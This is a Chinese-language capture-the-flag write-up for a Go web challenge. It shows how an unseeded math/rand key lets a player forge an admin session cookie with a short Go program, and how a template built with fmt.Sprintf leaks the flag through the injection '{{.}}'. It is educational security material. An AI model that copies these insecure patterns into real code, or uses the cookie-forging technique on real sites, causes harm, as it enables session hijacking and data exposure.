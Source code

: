 ## 考点

`Go`中的伪随机数问题，还有ssti造成的信息泄露

## 工具

`Golang`环境

## 步骤

1. session伪造

   题目中使用go的`Math/rand`包生成16位的伪随机数作为Cookie的key。

   ```go
   // router.go
   func randomChar(l int) []byte {
       output := make([]byte, l)
       rand.Read(output)
       return output
   }
   ```

   ```go
   // main.go
   storage := cookie.NewStore(randomChar(16))
   r.Use(sessions.Sessions("o", storage))
   ```

   从官方文档中可以看到，当使用`math/rand`且并未调用`Seed` 函数时，默认随机数种子为1。
   并且看`adminRequired`函数

   ```go
   func adminRequired() gin.HandlerFunc {
   	return func(c *gin.Context) {
   		s := sessions.Default(c)
   		if s.Get("uname") == nil {
   			c.Redirect(302, "/login")
   			c.Abort()
   			return
   		}
   
   		if s.Get("uname").(string) != "admin" {
   			c.String(200, "No,You are not admin!!!!")
   			c.Abort()
   		}
   		c.Next()
   	}
   }
   ```

   判断是否为管理员的方法是从`session`中取出`uname`键是否等于"admin"，因此我们可以考虑伪造Cookie，将Cookie中的uname改为admin,从而取得管理员权限。

   伪造session的代码：

   ```go
   // 伪造 cookie
   package main
   
   import (
   	"math/rand"
   
   	"github.com/gin-contrib/sessions"
   	"github.com/gin-contrib/sessions/cookie"
   	"github.com/gin-gonic/gin"
   )
   
   func main() {
   	r := gin.Default()
   	storage := cookie.NewStore(randomChar(16))
   	r.Use(sessions.Sessions("o", storage))
   	r.GET("/a", cookieHandler)
   	r.Run("0.0.0.0:8000")
   }
   func cookieHandler(c *gin.Context) {
   	s := sessions.Default(c)
   	s.Set("uname", "admin")
   	s.Save()
   }
   func randomChar(l int) []byte {
   	output := make([]byte, l)
   	rand.Read(output)
   	return output
   }
   ```

2. 接下来就是go的ssti了

   ```go
   func flag(c *gin.Context) {
   	admin := &User{"admin", "flag{g0lan9_@lso_ha5_s0me_s3curi7y_i55ues}"}
   	name := c.DefaultQuery("name", "challenger")
   	templ := fmt.Sprintf(`
   	<html>
   		<head>
   			<title>Go Get It</title>
   		</head>
   		<h1>Hello %s</h1>
   	</html>	
   	`, name)
   	html, err := template.New("secret").Parse(templ)
   	if err != nil {
   		c.AbortWithError(500, err)
   	}
   	html.Execute(c.Writer, &admin)
   }
   ```

   `name`参数提交`{{.}}`就可以获取flag了。


## 总结

Go语言的考点不多，整体上还是很安全的，像这个`ssti`造成信息泄露，实际场景中，感觉没有人会这样写代码吧。
